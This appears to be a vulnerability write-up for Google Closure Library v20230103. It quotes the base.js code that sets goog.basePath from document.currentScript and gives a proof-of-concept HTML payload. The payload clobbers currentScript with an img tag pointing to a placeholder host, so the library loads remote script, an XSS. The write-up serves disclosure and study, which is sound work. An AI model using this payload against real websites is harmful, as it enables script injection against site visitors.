 ## Google Closure Library

### Meta

+ Library: Google Closure Library
+ Stars: 4.9K
+ Version: v20230103
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk


### Library

URL: 
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.min.js`


### Vulnerable Code Snippet

```javascript
// If we have a currentScript available, use it exclusively.
var currentScript = doc.currentScript;
if (currentScript) {
  var scripts = [currentScript];
} else {
  var scripts = doc.getElementsByTagName('SCRIPT');
}
// Search backwards since the current script is in almost all cases the one
// that has base.js.
for (var i = scripts.length - 1; i >= 0; --i) {
  var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
  var src = script.src;
  var qmark = src.lastIndexOf('?');
  var l = qmark == -1 ? src.length : qmark;
  if (src.slice(l - 7, l) == 'base.js') {
    goog.basePath = src.slice(0, l - 7);
    return;
  }
}
```
```javascript
goog.DebugLoader_.prototype.loadClosureDeps = function() {
// Circumvent addDependency, which would try to transpile deps.js if
// transpile is set to always.
var relPath = 'deps.js';
this.depsToLoad_.push(this.factory_.createDependency(
    goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
this.loadDeps_();
};
```

which eventually gets loaded...

## PoC

The library canot be compiled for this to work.

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>

<script src=https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js></script>
```
